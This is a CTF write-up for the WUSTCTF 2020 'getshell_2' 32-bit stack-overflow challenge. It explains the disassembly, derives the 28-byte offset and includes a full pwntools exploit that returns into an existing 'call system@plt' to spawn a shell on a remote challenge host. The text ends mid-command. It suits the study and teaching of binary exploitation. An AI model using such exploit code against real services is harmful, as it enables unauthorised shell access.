


# WUSTCTF 2020 — getshell_2

A 32-bit stack-overflow challenge that doesn't need `ret2libc`, `ret2plt`, or any leak at all — the
binary already contains a ready-made `call system@plt` instruction sitting inside an unused helper
function. The entire exploit is about returning to the **middle** of that function (the `call`
instruction itself, not the function's start) and shaping the stack so the CPU's own `call` mechanics do
the argument setup for us.

| | |
|---|---|
| **CTF** | BUUCTF / WUSTCTF 2020 |
| **Category** | PWN / Binary Exploitation |
| **Arch** | ELF32, Intel 80386 (i386), little-endian |
| **Technique** | Stack buffer overflow → return to an existing `call system@plt` site |
| **Difficulty** | Easy |

---

## 1. Recon — checksec

```
$ file ./get
./get: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, not stripped

$ checksec --file=./get
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

| Protection | Status | Consequence |
|---|---|---|
| Canary | **Disabled** | Straight walk from the buffer into saved EBP and the return address, no cookie in the way |
| NX | **Enabled** | Stack-resident shellcode is off the table — but, as this challenge demonstrates, NX only stops *injected* code from running; it does nothing to stop *reusing* code that's already in the binary's own `.text` |
| PIE | **Disabled** | Every address — function entry points, PLT stubs, and even individual instructions mid-function — is a fixed constant we can hardcode |
| RELRO | **Partial** | GOT is writable, but irrelevant here — we never touch it |
| Symbols | **Not stripped** | Function names (`shell`, `init`, `vulnerable`, `main`) are directly visible, making the whole analysis straightforward |

The combination here is subtly different from a typical "easy pwn" fingerprint: there's no canary and NX
is on, which usually points straight at ret2libc. But before reaching for that, it's worth asking a
cheaper question first — **does the binary already contain a call to something dangerous that we could
reuse directly?** That's exactly the case here.

---

## 2. Function Map

```
$ objdump -d -Mintel ./get
```

| Symbol / instruction | Address |
|---|---|
| `shell` (function entry) | `0x0804851b` |
| `call system@plt` *inside* `shell` | `0x08048529` |
| `init` | `0x08048534` |
| `vulnerable` | `0x08048582` |
| `main` | `0x0804859e` |
| `system@plt` | `0x080483e0` |
| `"sh"` substring inside `.rodata` | `0x08048670` |

The single most important row in this table is `0x08048529` — **the address of the `call` instruction
itself**, sitting partway through `shell()`, not the address of `shell()`'s own entry point and not the
address of `system@plt`. The entire exploit hinges on the distinction between those three addresses, and
§7 works through exactly why.



`shell()` is never invoked by the program's normal control flow at all — `main()` only calls `init()`
and `vulnerable()`. It exists purely as leftover attacker-friendly code: a self-contained, ready-to-use
`system()` call site that the overflow can redirect execution into.

---

## 3. Disassembly, Function by Function

### 3.1 `shell()` — the gadget we're going to hijack

```asm
0804851b <shell>:
 804851b: 55                   push   ebp
 804851c: 89 e5                mov    ebp,esp
 804851e: 83 ec 08             sub    esp,0x8
 8048521: 83 ec 0c             sub    esp,0xc
 8048524: 68 50 86 04 08       push   0x08048650          ; push &"/bbbb...--??/sh"
 8048529: e8 b2 fe ff ff       call   0x080483e0 <system@plt>   ; <-- our target address
 804852e: 83 c4 10             add    esp,0x10
 8048531: 90                   nop
 8048532: c9                   leave
 8048533: c3                   ret
```

Normal (never-actually-taken, since nothing calls `shell()`) execution: push the string at `0x08048650`,
then call `system()` with it as the argument.

We deliberately **skip the prologue and the `push 0x08048650`** (`0x0804851b` through `0x8048524`) and
land the instruction pointer directly on `0x08048529` — the `call` instruction itself. Doing this means
*we* get to decide what argument `system()` receives, by placing our own pointer on the stack in the slot
the `push` instruction would otherwise have filled. The disassembly tells us the `call` at `0x08048529`
is five bytes long (opcode `e8` + 4-byte relative displacement) and, when executed, pushes
`0x0804852e` (the address of the instruction immediately after it) as the return address before jumping
into `system@plt`.

### 3.2 `init()` — housekeeping, not exploitable

```asm
08048534 <init>:
 8048534: 55                   push   ebp
 8048535: 89 e5                mov    ebp,esp
 8048537: 83 ec 08             sub    esp,0x8
 804853a: 83 ec 0c             sub    esp,0xc
 804853d: 6a 20                push   0x20
 804853f: e8 7c fe ff ff       call   0x080483c0 <alarm@plt>      ; alarm(0x20) = alarm(32)
 8048544: 83 c4 10             add    esp,0x10
 8048547: a1 44 a0 04 08       mov    eax,ds:0x0804a044           ; eax = stdin  (FILE*)
 804854c: 6a 00                push   0
 804854e: 6a 02                push   2                            ; mode = 2 (_IONBF)
 8048550: 6a 00                push   0
 8048552: 50                   push   eax
 8048553: e8 a8 fe ff ff       call   0x08048400 <setvbuf@plt>     ; setvbuf(stdin, NULL, _IONBF, 0)
 8048558: 83 c4 10             add    esp,0x10
 804855b: a1 40 a0 04 08       mov    eax,ds:0x0804a040            ; eax = stdout (FILE*)
 8048560: 6a 00                push   0
 8048562: 6a 02                push   2
 8048564: 6a 00                push   0
 8048566: 50                   push   eax
 8048567: e8 94 fe ff ff       call   0x08048400 <setvbuf@plt>     ; setvbuf(stdout, NULL, _IONBF, 0)
 804856c: 83 c4 10             add    esp,0x10
 804856f: 83 ec 0c             sub    esp,0xc
 8048572: 68 74 86 04 08       push   0x08048674                    ; banner string
 8048577: e8 54 fe ff ff       call   0x080483d0 <puts@plt>         ; puts(banner)
 804857c: 83 c4 10             add    esp,0x10
 804857f: 90                   nop
 8048580: c9                   leave
 8048581: c3                   ret
```

Nothing exploitable, but two details matter operationally:

- **`alarm(32)`** gives us a hard 32-second deadline per connection before the process is killed by
  `SIGALRM` — the exploit script needs to run fast enough to land the payload and read the flag inside
  that window, which is trivial for an automated script but worth knowing if you're debugging by hand.
- **Both streams are set to `_IONBF` (mode `2`, unbuffered)** — meaning there's no stdio buffering to
  worry about when sending the payload or reading a response back; what you `read()`/`write()` happens
  immediately, no flush needed.

### 3.3 `vulnerable()` — the actual bug

```asm
08048582 <vulnerable>:
 8048582: 55                   push   ebp
 8048583: 89 e5                mov    ebp,esp
 8048585: 83 ec 18             sub    esp,0x18           ; allocate 0x18 (24) bytes for buf[]
 8048588: 83 ec 04             sub    esp,0x4
 804858b: 6a 24                push   0x24               ; arg3: n    = 0x24 (36)
 804858d: 8d 45 e8             lea    eax,[ebp-0x18]      ; eax = &buf  (buf sits at ebp-0x18)
 8048590: 50                   push   eax                 ; arg2: buf
 8048591: 6a 00                push   0                   ; arg1: fd   = 0 (stdin)
 8048593: e8 18 fe ff ff       call   0x080483b0 <read@plt>   ; read(0, buf, 0x24)
 8048598: 83 c4 10             add    esp,0x10
 804859b: 90                   nop
 804859c: c9                   leave
 804859d: c3                   ret
```

cdecl pushes arguments right-to-left, so reading the pushes bottom-to-top gives the call in natural
argument order:

```c
read(0, (void *)(ebp - 0x18), 0x24);   // read(fd=0, buf=ebp-0x18, n=36)
```

**The bug, stated precisely:** the local buffer is only `0x18` (24) bytes (from `sub esp, 0x18` and the
`lea eax, [ebp-0x18]` buffer address), but `read()` is told it may write up to `0x24` (36) bytes into it
— **12 bytes more than the buffer can legitimately hold**, with zero bounds checking anywhere in this
function and no canary to catch the overrun on the way out.

### 3.4 `main()` — orchestration only

```asm
0804859e <main>:
 804859e: 8d 4c 24 04          lea    ecx,[esp+0x4]
 80485a2: 83 e4 f0             and    esp,0xfffffff0        ; 16-byte-align esp (standard i386 main prologue)
 80485a5: ff 71 fc             push   DWORD PTR [ecx-0x4]
 80485a8: 55                   push   ebp
 80485a9: 89 e5                mov    ebp,esp
 80485ab: 51                   push   ecx
 80485ac: 83 ec 04             sub    esp,0x4
 80485af: e8 80 ff ff ff       call   0x08048534 <init>
 80485b4: e8 c9 ff ff ff       call   0x08048582 <vulnerable>
 80485b9: b8 00 00 00 00       mov    eax,0x0
 80485be: 83 c4 04             add    esp,0x4
 80485c1: 59                   pop    ecx
 80485c2: 5d                   pop    ebp
 80485c3: 8d 61 fc             lea    esp,[ecx-0x4]
 80485c6: c3                   ret
```

The `ecx`-based prologue/epilogue dance is a standard GCC pattern for i386 `main` (it exists so `main`
can realign the stack to 16 bytes while still being able to correctly tear down its own frame afterward)
— it's boilerplate, not part of the vulnerability. The only two calls that matter are `init()` then
`vulnerable()`, exactly once each, with no loop and no retry.

---

## 4. Deriving the Exact Offset to EIP

Let `B` be the buffer's address. From `vulnerable()`'s own prologue:

```asm
sub  esp, 0x18          ; reserves 0x18 bytes of locals
lea  eax, [ebp-0x18]    ; &buf == ebp - 0x18
```

so `B = EBP - 0x18`. The saved frame pointer lives at `[EBP]`, and the saved return address (EIP) lives
immediately after it at `[EBP+4]` — standard x86 call-frame layout. Measuring both from the buffer's own
start, `B`:

```
saved EBP offset  =  EBP     - B  =  0x18  = 24
saved EIP offset  = (EBP+4)  - B  =  0x1c  = 28
```

**Offset to the return address: 28 bytes.** Laid out as a complete stack map:


The read is capped at `0x24` (36) bytes total — exactly `24 (buffer) + 4 (saved EBP) + 4 (saved EIP) + 4
(one more dword)`, which is precisely enough room for: junk padding up to the saved EBP, the hijacked
return address, and **one more 4-byte slot right after it** — which turns out to be exactly where
`system()`'s argument needs to sit (§7). The challenge's `read()` limit of 36 bytes isn't arbitrary
generosity; it's the *exact* size needed for this specific exploit chain and not one byte more.

---

## 5. The `.rodata` String

`shell()`'s normal path pushes `0x08048650` before calling `system()`. Reading that address in `.rodata`
reveals:

```
"/bbbbbbbbin_what_the_f?ck__--??/sh"
```

A deliberately mangled, troll-ish string — but it has a genuine, usable substring sitting at its tail
end: `"sh"`, which happens to be enough on its own (`system("sh")` launches an interactive shell exactly
as `system("/bin/sh")` would, just via the `sh` found on `$PATH` rather than an absolute path). That
substring's address, as established during analysis of this challenge, is:

```
0x08048670
```

> ```bash
> objdump -s -j .rodata ./get      # raw bytes, offsets visible directly
> strings -tx ./get                 # strings with their byte offsets, easier to grep
> ```
> Either will show you precisely where the `s`,`h`,`\0` bytes fall inside the longer string, which is
> the address you'd actually use in place of `0x08048670` above.

Using this existing substring means the exploit **never needs to write `"/bin/sh"` anywhere itself** — a
nice side effect of NX being on: there's no writable+executable memory to stage a string in even if we
wanted to, but we don't need one, since the string already exists, fully formed, inside the binary's own
`.rodata`.

---

## 6. Why Returning to the *Call Site* (not the Function) Works

This is the mechanism the whole exploit rests on, so it's worth slowing down for.

### 6.1 What `call` actually does, mechanically

On x86, `call system@plt` is not "jump to `system` and let `system` figure out its own argument." It is
exactly two machine operations, always, no matter what's being called:

1. **Push** the address of the instruction immediately following the `call` (the return address) onto
   the stack.
2. **Jump** to the target address.

cdecl's convention is that by the time a `call` instruction executes, the caller has *already* pushed
all of the callee's arguments, right-to-left, so that immediately after step 1 above, the stack at the
callee's entry point looks like:

```
[ESP + 0]  ->  return address        (just pushed by `call` itself)
[ESP + 4]  ->  first argument
[ESP + 8]  ->  second argument
...
```

### 6.2 What our overflow actually places on the stack

Our payload, from low to high address:

```
offset  0..27   :  28 bytes of 'A' padding   (fills buf[] + saved EBP, contents irrelevant)
offset 28..31   :  0x08048529                (the call-site address — overwrites saved EIP)
offset 32..35   :  0x08048670                (the "sh" string pointer — the extra 4 bytes after EIP)
```

```mermaid
sequenceDiagram
    participant Stk as Stack (top to bottom)
    participant CPU as CPU
    participant Sys as system@plt

    Note over Stk: vulnerable()'s `leave; ret` executes
    Stk->>CPU: ret pops 0x08048529 into EIP, ESP += 4
    Note over CPU: EIP now points at `call system@plt`\n(the instruction AT 0x08048529, mid-shell())
    Note over Stk: ESP now points at 0x08048670 ("sh" pointer)
    CPU->>Stk: call instruction pushes return addr 0x0804852e
    Stk-->>CPU: ESP now points at 0x0804852e, [ESP+4] = 0x08048670
    CPU->>Sys: jump into system@plt
    Note over Sys: system() entry: [ESP]=ret addr, [ESP+4]="sh" ptr --\nEXACTLY the cdecl layout it expects
    Sys->>Sys: system("sh")
    Sys-->>Stk: shell spawned 🐚
```

Walking it step by step:

1. `vulnerable()`'s epilogue (`leave; ret`) runs as normal. `ret` pops whatever is at the current top of
   stack into `EIP` — and because of our overflow, that's `0x08048529`, not the legitimate return
   address into `main()`. `ESP` advances by 4.
2. Execution resumes **at `0x08048529`** — which is not a function entry point, it's the `call
   system@plt` instruction sitting partway through `shell()`. At this exact moment, `ESP` is pointing
   at our second overwritten dword: `0x08048670` (the `"sh"` pointer).
3. The CPU now executes that `call` instruction exactly as it would in any other context: it pushes the
   address of the next instruction (`0x0804852e`, inside `shell()`, which we will never actually reach)
   as a return address, and jumps into `system@plt`.
4. At the instant `system()` begins executing, the stack reads `[ESP] = 0x0804852e` (a return address,
   never used — `system()` running to completion here just means a shell gets spawned, and even if
   control somehow returned to `0x0804852e` it just runs `add esp, 0x10; leave; ret` harmlessly) and
   **`[ESP+4] = 0x08048670`**, our `"sh"` pointer — which is *exactly* where cdecl expects `system()`'s
   first argument to be.

The overflow never had to fake or construct the "return address" slot that `system()` expects at its own
entry — the CPU's `call` instruction built that slot for us, for free, as a side effect of simply
executing the `call` we redirected into. All our payload had to supply was the one thing `call` *doesn't*
provide: the argument sitting in the slot right after where the pushed return address will land.

### 6.3 Why not just return straight to `system@plt` (`0x080483e0`)?

This is the natural question, and the answer is the crux of the whole technique: **`system@plt` itself
expects the stack to *already* be in the post-`call` state** — `[ESP]` = return address, `[ESP+4]` =
argument — because every *normal* caller of `system()` reaches it via an actual `call` instruction that
already pushed that return address as step 1 of the two-step process in §6.1.

If we instead made our overflow's hijacked `ret` jump straight to `0x080483e0` (`system@plt`'s own
first instruction) with our payload laid out the same way (`'A'*28 + p32(system_plt) + p32(sh_string)`),
the stack at that moment would be:

```
[ESP + 0]  ->  0x08048670   ("sh" pointer -- WRONG SLOT, this gets misread as the return address!)
[ESP + 4]  ->  whatever was next in memory (uncontrolled)
```

Because nothing executed a `call` instruction on our behalf this time, there's no pushed return address
in front of our argument — `ESP` is pointing straight at what we intended as the *argument*, and
`system()`/its PLT stub would instead treat that as its *return address*, while the actual first
argument it reads (`[ESP+4]`) is whatever uncontrolled garbage happens to sit beyond our payload. The
whole trick of this challenge is specifically to **return to a `call` instruction, not to a function's
raw entry point**, so that the `call`'s own push does the argument-shifting for us.



---

## 7. Reconstructed Source

A behavioral reconstruction from the disassembly (function names/boundaries from symbols, buffer size
from `sub esp, 0x18` + the `lea` address, `read()`'s length from its visible third argument, `alarm`'s
argument from its visible push, and `setvbuf`'s mode argument of `2` matching `_IONBF` on the target
libc):

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void shell(void)
{
    system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}

void init(void)
{
    alarm(32);

    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("\\ ");
}

void vulnerable(void)
{
    char buf[24];

    read(STDIN_FILENO, buf, 0x24);   // 0x24 = 36 > sizeof(buf) -- the bug
}

int main(void)
{
    init();
    vulnerable();

    return 0;
}
```

This is a *behavioral* reconstruction, not the original source — recompiling it is not guaranteed to
reproduce the same instruction addresses, stack layout, or binary bytes; it exists purely to make the
disassembly's logic easier to read as C.

---

## 8. The Exploit — Built the Old-School Way

Rather than reaching for `flat()` to silently concatenate and pack everything, this version builds the
payload with explicit `p32()` calls and plain byte-string concatenation — the way people wrote 32-bit
pwntools exploits before `flat()`'s auto-packing became the default idiom. Every byte going over the wire
is visible in the script itself.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#
# WUSTCTF 2020 - getshell_2
#
# Stack overflow in vulnerable() -> return directly to the existing
# `call system@plt` instruction inside shell(), using the CPU's own
# `call` semantics to place "sh" in the argument slot system() expects.
# No ret2libc, no leak, no injected shellcode needed.

from pwn import *

context.clear(arch='i386', os='linux')
context.log_level = 'info'

# ----------------------------------------------------------------------
# Connection settings -- flip USE_REMOTE to switch between local testing
# and the real target.
# ----------------------------------------------------------------------
USE_REMOTE = True

BINARY = './get'
HOST   = '02f0745979590371e64e1a57.tcp-ctf2.dasctf.com'
PORT   = 9999

# ----------------------------------------------------------------------
# Fixed addresses (no PIE -> these never move between runs)
# ----------------------------------------------------------------------
OFFSET_TO_EIP = 28            # buffer(24) + saved EBP(4) = 28 bytes of junk before EIP
CALL_SYSTEM   = 0x08048529    # address of `call system@plt` INSIDE shell(), not shell()'s own entry
SH_STRING     = 0x08048670    # address of the "sh" substring living inside a longer .rodata string


def build_payload():
    """
    Manually pack the payload byte by byte:

        [ 28 bytes padding          ]   -> fills buf[24] + saved EBP, contents don't matter
        [ call_system (0x08048529)  ]   -> overwrites saved EIP; vulnerable()'s `ret` lands HERE
        [ sh_string   (0x08048670)  ]   -> sits where `call`'s own push will leave room for
                                            system()'s first argument once the call executes
    """
    chain = b''
    chain += b'A' * OFFSET_TO_EIP
    chain += p32(CALL_SYSTEM)
    chain += p32(SH_STRING)

    # The read() in vulnerable() is capped at exactly 0x24 (36) bytes --
    # confirm our hand-built chain matches that exactly before sending it.
    assert len(chain) == 0x24, 'payload size does not match the 36-byte read() limit!'

    return chain


def connect():
    if USE_REMOTE:
        io = remote(HOST, PORT, ssl=True, sni=HOST)
    else:
        io = process(BINARY)
    return io


def main():
    io = connect()

    payload = build_payload()

    log.info('Payload ({} bytes):'.format(len(payload)))
    log.info('  padding     : {} bytes of 0x41'.format(OFFSET_TO_EIP))
    log.info('  call_system : {}'.format(hex(CALL_SYSTEM)))
    log.info('  sh_string   : {}'.format(hex(SH_STRING)))

    io.send(payload)

    log.success('Payload sent -- dropping to interactive shell')
    io.interactive()


if __name__ == '__main__':
    main()
```

### 8.1 Why this particular manual-chain style

Writing `chain += p32(...)` one field at a time, with the running byte-count asserted against the
known `read()` limit at the end, forces you to account for every single byte in the 36-byte window the
vulnerability actually gives you — there's no room here for an off-by-one to hide behind `flat()`'s
automatic concatenation. For a payload this short and fixed-shape, the manual version is barely longer
than the `flat()` version but makes the size accounting self-checking.

### 8.2 Running it

```bash
python3 exploit.py
```

Against the local copy for testing, flip `USE_REMOTE = False` (requires `BINARY` to point at a valid
local copy of the challenge binary). Against the real target:

```
Host: 02f0745979590371e64e1a57.tcp-ctf2.dasctf.com
Port: 9999
TLS:  enabled
```

The same host/port can also be reached manually, outside of pwntools entirely, with `ncat`:

```bash
ncat --ssl \
  --ssl-servername 02f0745979590371e64e1a57.tcp-ctf2.dasctf.com \
  02f0745979590371e64e1a57.tcp-ctf2.dasctf.com 9999
```

— useful for confirming the service is reachable and TLS-only before debugging why a script isn't
connecting.

---

## 9. Debugging / Validation Workflow

A reproducible process for re-deriving everything in this write-up from scratch on your own copy of the
binary:

```bash
# File properties and protections
file ./get
checksec --file=./get

# Full disassembly
objdump -d -Mintel ./get | less

# Focused views of just the functions that matter
objdump -d -Mintel ./get | sed -n '/<shell>:/,/<init>:/p'
objdump -d -Mintel ./get | sed -n '/<vulnerable>:/,/<main>:/p'

# Strings and .rodata, to re-derive the "sh" substring address yourself
strings -tx ./get
objdump -s -j .rodata ./get
```

Confirming the offset dynamically with GDB, rather than trusting the static arithmetic alone:

```gdb
gdb -q ./get
set disassembly-flavor intel
break *0x08048582        ; vulnerable()'s entry
run
disassemble vulnerable

info registers ebp esp
p/x $ebp-0x18             ; should match the buffer address used in the `lea`
x/12wx $ebp-0x18           ; eyeball the 12 dwords starting at the buffer
```

```
buffer start = EBP - 0x18
saved EIP    = EBP + 4
offset       = (EBP + 4) - (EBP - 0x18) = 0x1c = 28 bytes
```

---

## 10. Attack Flow Summary

```mermaid
flowchart TD
    A["Send 36-byte payload to read()"] --> B["28 bytes 'A' padding\n(fills buf[24] + saved EBP)"]
    B --> C["4 bytes: 0x08048529\n(overwrites saved EIP)"]
    C --> D["4 bytes: 0x08048670\n(extra dword right after EIP)"]
    D --> E["vulnerable() epilogue: leave; ret"]
    E --> F["ret pops 0x08048529 into EIP\nESP now points at the 0x08048670 dword"]
    F --> G["CPU executes `call system@plt`\n@ 0x08048529 -- pushes its OWN\nreturn addr (0x0804852e)"]
    G --> H["system() entry: [ESP]=ret addr,\n[ESP+4]=0x08048670 (\"sh\" ptr)\n-- correct cdecl argument layout"]
    H --> I["system(\"sh\") executes"]
    I --> J["Shell 🐚"]
```

| Step | Action | Value |
|---|---|---|
| 1 | Fill local buffer and saved EBP | 28 bytes |
| 2 | Overwrite saved EIP | `0x08048529` |
| 3 | Place `system()`'s argument | `0x08048670` |
| 4 | CPU executes the existing `call system@plt` | at `0x08048529` |
| 5 | `system()` receives `"sh"` | from `0x08048670` |

Final payload, byte-exact: `b"A" * 28 + p32(0x08048529) + p32(0x08048670)` — **36 bytes total**
(`28 + 4 + 4`), matching the `read()` call's limit of `0x24` precisely, with nothing to spare and nothing
missing.

---

## 11. Key Takeaways

- **NX stops *injected* code, not *existing* code.** The binary already contained a fully-formed path to
  `system()`; NX has no opinion about jumping into instructions that were already part of the executable
  before the overflow ever happened.
- **The address of a `call` instruction and the address of the function it's inside of are two different,
  independently useful addresses.** Returning to the start of `shell()` would re-run its prologue and its
  own (unwanted) `push` of a different string; returning to the `call` itself skips straight past all of
  that and lets *you* control the argument.
- **`call`'s own semantics — push return address, then jump — can substitute for a ROP gadget.** You don't
  always need a `pop reg; ret` style gadget to set up an argument; sometimes an existing `call` site in
  the binary will do the equivalent shifting of the stack for you, provided you understand exactly what
  state it expects to find the stack in beforehand.
- **A `.rodata` string doesn't have to be used from its own start.** Any sufficiently useful substring —
  here, `"sh"` sitting at the tail of a much longer, intentionally obfuscated string — is just as valid a
  pointer target as the start of a dedicated string literal.
- **Exact byte-accounting matters on tightly-capped overflows.** This challenge's `read()` limit (36
  bytes) is not generous slack — it's precisely `offset(28) + address(4) + argument(4)`, with zero bytes
  to spare, which is why the exploit script asserts the final payload length rather than assuming it.

---

## 12. Quiz — Test Yourself

**Q1.** `checksec` on this binary shows **NX enabled** and **no stack canary**. Explain concretely why NX
being on did *not* force a `ret2libc`-style leak-and-compute approach here, given that a leak is usually
the standard answer whenever NX blocks stack shellcode.

<details>
<summary>Answer</summary>

NX only prevents the CPU from **executing memory pages that are writable but not marked executable** —
it has no effect whatsoever on jumping into memory that was *already* marked executable as part of the
original binary, such as the program's own `.text` section. In this challenge, the binary itself already
contains a fully-formed `call system@plt` instruction (inside the unused `shell()` function), sitting in
ordinary, always-executable code. The exploit never needs to run attacker-supplied bytes as code at
all — it only needs to redirect the instruction pointer to an address that was *already* executable
before the overflow happened, and let the CPU's own `call` mechanics (pushing a return address, then
jumping) do the work of correctly positioning `system()`'s argument. `ret2libc` is the standard fallback
specifically for when the binary *doesn't* already contain a convenient path to a dangerous function
call — here, it does, so there's no need to leak anything or compute a libc base at all.
</details>

---

**Q2.** The computed offset to the saved return address is **28 bytes**, even though the local buffer
itself is only declared as **24 bytes** (`char buf[24]`). Where do the extra 4 bytes come from, and why
is understanding this distinction necessary to get the offset right?

<details>
<summary>Answer</summary>

The extra 4 bytes are the **saved EBP** (the caller's frame pointer), which the `push ebp` /
`mov ebp, esp` prologue stores on the stack immediately *between* the local buffer and the saved return
address — not part of the 24-byte buffer the programmer declared, but still sitting in the overflow's
path on the way to the return address. Concretely: the buffer occupies `[EBP-0x18 .. EBP-0x1]` (24
bytes), the saved EBP occupies `[EBP .. EBP+3]` (4 more bytes), and only *then* does the saved return
address begin, at `[EBP+4]`. So the total distance from the start of the buffer to the return address is
`24 (buffer) + 4 (saved EBP) = 28 bytes`, not just the buffer's own declared size. Treating "offset to
RIP/EIP" as simply "the buffer size" is a common mistake that undercounts by exactly the width of one
saved frame pointer (4 bytes on x86, 8 on x86-64).
</details>

---

**Q3.** The exploit returns execution to `0x08048529` — the address of the `call system@plt`
instruction *inside* `shell()` — rather than to `0x0804851b`, the address of `shell()`'s own function
entry point. If the payload instead jumped to `shell()`'s entry point with the exact same two overwritten
dwords (`call_system` address and `"sh"` string address) following the padding, would it still work?
Why or why not?

<details>
<summary>Answer</summary>

**No, it would not work as intended**, because jumping to `shell()`'s actual entry point means the CPU
executes `shell()`'s **prologue first** (`push ebp; mov ebp, esp; sub esp, 0x8; sub esp, 0xc`) and then
its own hardcoded `push 0x08048650` — which pushes *shell()'s own* baked-in string address (the full
mangled `"/bbbb...--??/sh"` string) onto the stack, not whatever value our payload placed there. The two
dwords our payload supplied after the padding (what we intended as "the call-site address" and "the sh
string address") would simply never be consulted for argument purposes at all in this scenario — they'd
just sit inertly on the stack while `shell()` runs its own prologue and pushes its own string, and then
calls `system()` with *that* string, not ours. The entire reason the exploit targets the `call`
instruction specifically is to **skip** the prologue and the function's own `push`, landing execution at
the exact point where the stack is primed to accept *our* argument instead of the function's own.
</details>

---

**Q4.** Suppose, instead of returning to `0x08048529` (the `call system@plt` instruction), the payload
returned directly to `system@plt`'s own first instruction at `0x080483e0`, using the identical stack
layout (`'A'*28 + p32(0x080483e0) + p32(sh_string_addr)`). Walk through what `system()` would actually
receive as its "return address" and its "first argument" in this scenario, and explain why it differs
from the working exploit.

<details>
<summary>Answer</summary>

When `vulnerable()`'s `ret` pops `0x080483e0` into `EIP`, `ESP` is left pointing at the next dword in our
payload — the one we intended as the `"sh"` string pointer. Execution now begins **directly inside
`system@plt`** with no `call` instruction having executed on our behalf at all — meaning nothing pushed a
fresh return address onto the stack first. `system@plt`'s own code, and `system()` beyond it, is written
assuming the standard cdecl entry-state (`[ESP]` = return address, `[ESP+4]` = first argument), because
every *ordinary* caller reaches `system()` via an actual `call` instruction that already did that pushing
for them. Here, that push never happened, so the PLT/`system()` code misreads **our intended argument
pointer** (sitting at `[ESP]`) as if it were the return address, and reads whatever uncontrolled bytes
happen to follow it in memory (at `[ESP+4]`, beyond the end of our 36-byte payload — content we never
specified) as if that were the first argument. The result is `system()` being called with garbage (or
whatever leftover stack data happens to occupy that slot) as its command string, not `"sh"` — the exploit
simply doesn't work this way, which is exactly why the write-up returns to the `call` instruction
instead, letting that instruction's own push correctly shift everything into the slots `system()` actually
expects.
</details>

---

**Q5. (Interview-style)** Generalize the core technique in this write-up beyond "return to a `call
system`". If you're looking at a disassembly and trying to find return-to-existing-code opportunities
like this one in a non-PIE binary with NX but no ROP-gadget-heavy target in mind, what should you
specifically be searching for, and why is a `call`-instruction address often more directly useful than
the called function's own PLT/entry address?

<details>
<summary>Answer</summary>

Specifically search the disassembly for **existing `call` instructions whose target is a function you'd
like to invoke with attacker-controlled arguments** (commonly `system`, `exec*`, or similar), regardless
of whether the *caller* function containing that `call` is ever normally reached by the program's actual
control flow — an unreferenced or dead function is just as useful a source of a `call` site as a
frequently-executed one, since you're not relying on the function's normal logic, only on the handful of
bytes that constitute the `call` instruction itself.

A `call`-instruction address is often more directly useful than the target function's own PLT/entry
address because **`call` performs the return-address push for you as a side effect of simply executing
it** — which is exactly the stack-shifting operation cdecl-style argument setup otherwise requires a `pop
reg; ret`-style ROP gadget (or an explicit extra `ret`/padding dword) to achieve manually. In a binary
that's short on generically useful ROP gadgets but happens to already contain a convenient, pre-written
`call` to a dangerous function — frequently true of binaries that were deliberately built with "flavor"
helper functions like this challenge's `shell()` — reusing that existing `call` site can fully replace
what would otherwise require building a small ROP chain from scratch.
</details>

---

## 13. Commands Reference

```bash
# Recon
file ./get
checksec --file=./get

# Disassembly
objdump -d -Mintel ./get | less
objdump -d -Mintel ./get | sed -n '/<shell>:/,/<init>:/p'
objdump -d -Mintel ./get | sed -n '/<vulnerable>:/,/<main>:/p'

# Strings / rodata (to verify or re-derive the "sh" substring address)
strings -tx ./get
objdump -s -j .rodata ./get

# Dynamic offset verification
gdb -q ./get
#   set disassembly-flavor intel
#   break *0x08048582
#   run
#   info registers ebp esp
#   p/x $ebp-0x18
#   x/12wx $ebp-0x18

# Manual remote connection check (outside of pwntools)
ncat --ssl \
